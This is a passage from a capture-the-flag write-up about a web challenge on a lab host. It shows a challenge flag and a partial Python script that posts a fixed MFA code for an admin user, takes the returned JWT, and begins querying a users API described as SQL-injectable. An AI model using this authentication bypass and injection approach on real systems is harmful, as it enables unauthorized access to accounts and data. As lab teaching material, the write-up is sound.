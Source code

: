 This reveals another API, but was authenticated. There was also another document with the admin’s username:

![Untitled](images/Untitled%201.png)

So now we could get the admin’s token by using the first vulnerability and start using the newly discovered API.

### ADMIttiNG: WP{R00t_Sm1th}

Through some manual fuzzing we found that the `/api/users.php` has an SQL injection vulnerability.

```python
import requests
import base64
import json
import secrets

url = "http://start.wpctf.lan:8806/{path}"

def _(path):
    return url.format(path=path)

class Challenge:
    def __init__(self):
        self.s = requests.Session()
        self.login()

    def login(self):

        mfa_check = _(path="/api/mfa_verify.php")
        response = self.s.post(
            mfa_check, json={"mfa_check": 123, "username": "admin238"}
        )

        self.jwt = response.json()["jwt"]
        self.s.headers.update({"Authorization": "Bearer " + self.jwt})

    def get_userid(self, id):
        self.login()
        response = self.s.get(_(path=f"/api/users.php?id={id}"))
```